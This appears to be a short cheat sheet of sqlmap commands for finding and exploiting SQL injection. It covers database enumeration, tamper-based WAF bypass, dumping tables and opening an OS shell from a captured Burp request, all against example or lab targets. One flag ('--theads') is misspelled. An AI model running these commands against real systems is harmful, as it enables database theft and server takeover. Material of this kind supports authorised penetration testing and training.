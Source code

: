 # SQLMAP

SQLMAP is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester :)

## Basic Usage

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch
```

## Multiple Threads

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch --threads 10
```

## Random User-Agent

```bash
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch --threads 10 --random-agent
```

### WAF Bypass

```
sqlmap -u "https://example.com/page.php?id=1" --dbs --batch --theads 10 --tamper="apostrophemask,apostrophenullencode,randomcase"
```

## Targeting Parameters

```bash
sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user
```

## Dumping Database

```bash
sqlmap -u "http://192.168.50.19/blindsqli.php?user=1" -p user --dump
```

## OS Shell via Burp Suite

```bash
sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/tmp"
```
